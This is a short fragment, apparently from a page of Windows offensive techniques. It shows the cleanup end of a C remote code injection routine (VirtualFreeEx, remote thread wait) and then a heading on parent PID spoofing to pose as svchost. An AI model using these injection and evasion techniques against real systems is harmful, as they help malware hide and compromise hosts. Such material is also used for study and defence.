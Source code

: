 ```
        VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Cleanup
    VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}
```

### Parent PID Spoofing

Spoofing parent process ID for svchost

